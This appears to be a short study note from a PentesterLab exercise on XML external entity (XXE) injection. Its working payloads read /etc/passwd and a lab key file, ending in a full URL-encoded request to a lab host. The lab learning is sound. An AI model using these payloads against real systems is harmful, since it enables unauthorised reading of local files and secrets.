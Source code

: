 ```yaml
---
tags: xml
---
```


Some parsers will resolve external files in xml, meaning we can inject local files like so:

```xml
<!ENTITY x SYSTEM "file:///etc/passwd">
```

You will need to envelope this properly:
```xml
<!DOCTYPE test [
	<!ENTITY x SYSTEM "file:///etc/passwd">]>
```

Then simply use a reference to __x__: `&x` to get the results back.

```ad-important
__encoding__ is very important, especially for the `&` (`%26`)
```

A final payload might look like:

```url
http://ptl-354c74b7-421a19bf.libcurl.so/?xml=%3C!DOCTYPE%20test%20[%3C!ENTITY%20x%20SYSTEM%20%22file:///pentesterlab.key%22%3E]%3E%3Ctest%3E%26x;%3C/test%3E
```

